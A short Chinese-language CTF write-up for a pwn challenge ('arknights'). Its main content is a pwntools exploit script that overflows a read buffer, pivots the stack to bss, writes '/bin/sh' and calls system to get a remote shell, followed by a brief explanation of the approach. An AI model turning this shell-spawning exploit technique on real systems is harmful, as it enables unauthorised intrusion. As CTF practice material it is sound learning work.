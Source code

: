 ```yaml
---
typora-copy-images-to: ./images
---
```


## arknights

栈迁移+read读

先贴exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
from ctypes import *
context(os='linux', arch='i386',log_level = 'debug')
context.terminal = 'wt.exe -d . wsl.exe -d Ubuntu'.split()
host = 'gz.imxbt.cn'
post = 20998
#p = process('./pwn')
p = remote(host,post)
elf = ELF('./pwn')
#libc = ELF('./pwn')
#gdb.attach(p)

pop_rdi = 0x00000000004018e5
leave = 0x0000000000401393
sys = 0x000000000401130
read = 0x0000000004018A8

p.sendline(b' ')
p.sendline(b'4')
p.sendline(b'1')
payload = b'a'*0x40+p64(elf.bss(0x408))+p64(read)
pause()
p.send(payload)
pause()
payload2 = b'/bin/sh\x00'*0x8+p64(0)+p64(pop_rdi)+p64(elf.bss(0x400-0x20))+p64(sys)
pause()
p.send(payload2)
pause()
p.sendline('exec 1>&0')
p.interactive()
```

前面抽卡那里没什么问题，直接跳过

![image-20250409222505750](./images/image-20250409222505750.png)

这里可以看到`read(0,s,0x60)`这里存在栈溢出，溢出了0x20字节，并且执行`system`指令，那么我们的利用思路就很清晰了：

覆写rbp为bss段地址->利用read函数将`/bin/sh`写入`bss`段(这里vmmap看过了，bss段可写)->通过`pop rdi`执行`/bin/sh`

